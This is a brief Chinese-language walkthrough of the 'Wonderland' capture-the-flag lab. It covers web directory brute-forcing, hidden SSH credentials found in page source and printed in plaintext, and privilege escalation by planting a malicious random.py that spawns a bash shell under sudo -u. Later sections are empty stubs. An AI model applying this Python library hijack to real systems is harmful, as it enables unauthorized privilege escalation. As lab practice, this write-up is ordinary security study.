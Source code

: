 
# Wonderland
## nmap加字典爆破

发现有很多陷阱的文件路径 访问进去基本都是404 

有个图片的网站 有一个纯文本的网页

```
/img
/r
/poem
```

有意思的一点是 还不够纵深 用feroxbuster 来深入扫描

好家伙 /r一直到拼出rabbit 看源码就知道有个东西被隐藏了 好家伙 是个账户密码 后知后觉

![image.png](https://s2.loli.net/2025/04/22/Le8ZC16sOxPq4Dk.png)

## ssh连接
```
alice：HowDothTheLittleCrocodileImproveHisShiningTail
```
用这个成功登录进去了

## user root
根据提示说是相反的  说明user可能在root那里 进root cat一下有了

## rabbit python劫持
这里使用的是random的python库 创建一个random的py文件  运行就OK了

```
import pty
pty.spawn("/bin/bash")
```

```
sudo -u 用户名
```
![image.png](https://s2.loli.net/2025/04/22/LJAcFR75dZeCbf8.png)

![image.png](https://s2.loli.net/2025/04/22/s2g7w9vYuRfPaQb.png)

成功切换用户

## 缓冲区溢出的漏洞


# morphes
